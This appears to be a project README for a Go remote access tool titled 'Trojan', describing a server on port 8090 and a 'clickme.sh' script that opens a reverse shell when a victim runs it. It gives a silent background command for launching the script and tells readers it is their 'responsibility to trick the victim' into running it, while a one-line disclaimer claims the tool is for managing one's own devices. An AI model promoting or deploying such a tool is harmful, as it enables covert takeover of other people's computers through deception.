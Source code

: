 # Trojan
A remote access tool written in go.

If a victim unintentionally executed the command below, I will have full control over his/her device via a reverse shell.

```sh
source clickme.sh > /dev/null 2>&1 &
```

Of course, I am using this tool to manage my remote devices, such as router at home, behind NAT.
Please don't use it for any form of exploitation.

## Server
The server listens to a single port (8090 by default) but it can accept more than one remote or local connections.
Remote connections are initiated from the victims' computers by executing `clickme.sh` which will start a reverse shell.
Local connection can list all remote connections and select one of them to run any command in the reverse shell.

## Client
As long as the client has internet access and has bash installed, it can be exploited. It's your responsibility to trick the victim into running the shell script.
